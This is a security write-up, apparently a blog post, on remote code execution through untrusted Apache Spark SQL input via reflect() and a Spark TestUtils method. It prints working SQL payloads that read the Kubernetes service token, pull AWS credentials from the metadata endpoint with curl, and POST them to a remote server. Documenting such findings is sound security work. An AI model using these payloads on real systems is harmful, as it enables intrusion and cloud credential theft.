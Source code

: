 ```yaml
---
layout: post
title:  "Remote Code Execution by Abusing Apache Spark SQL"
date:   2022-10-24
---
```


During a security assessment, I discovered a feature that allowed users to execute arbitrary Spark SQL queries on analytics data.

## Vulnerability
The blog post ["The Dangers of Untrusted Spark SQL Input in a Shared Environment"](https://datapipelines.com/blog/the-dangers-of-untrusted-spark-sql-input-in-a-shared-environment/?ref=blog.stratumsecurity.com) mentioned two functions that allowed Java code execution. However, the java.lang.Runtime class and its getRuntime().exec() method couldn't be used because the Spark SQL functions reflect() and java_method() only supported calling static methods from classes without instantiation. I needed to find a Java class with a static method to exploit the Spark SQL functionality.

I was able to retrieve environment variables and system properties using the following SQL queries:
```sql
-- List environment variables
SELECT reflect('java.lang.System', 'getenv')

-- List system properties
SELECT reflect('java.lang.System', 'getProperties')
```

While the environment variables and system properties revealed nothing sensitive, the system properties did expose the Spark version, which later helped me achieve remote code execution.

## Path to Exploitation
While reviewing the Spark JavaDocs, I found a class called **org.apache.spark.TestUtils** with a static method, **testCommandAvailable()**.

Upon reviewing the code on GitHub, I discovered that **Process(command).run()** allowed system commands to be executed.

I crafted a Spark SQL payload using this method to execute system commands and was able to disclose the Kubernetes API token and AWS keys with excessive permissions using the following queries:
```sql
-- Read Kubernetes API token file
SELECT * FROM csv.`/var/run/secrets/kubernetes.io/serviceaccount/token`

-- Write the AWS keys to a file
SELECT reflect('org.apache.spark.TestUtils', 'testCommandAvailable', 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/euwe1-redacted -o /opt/test.txt')

-- Send the file contents to a remote controlled server to view
SELECT reflect('org.apache.spark.TestUtils', 'testCommandAvailable', 'curl -X POST -F data=@/opt/test.txt http://remoteserver.example.com/test5.txt')
```

<figure>
  <img src="/assets/img/2022/awskeys-disclosed.png">
  <figcaption>Figure 1 – Disclosed AWS keys with code execution</figcaption>
</figure>  

After obtaining their AWS keys and verifying permissions, I listed all the S3 buckets accessible with those keys as a proof of concept for the report.

<figure>
  <img src="/assets/img/2022/buckets-listed.png">
  <figcaption>Figure 2 – Listed S3 buckets using disclosed AWS keys</figcaption>
</figure>  

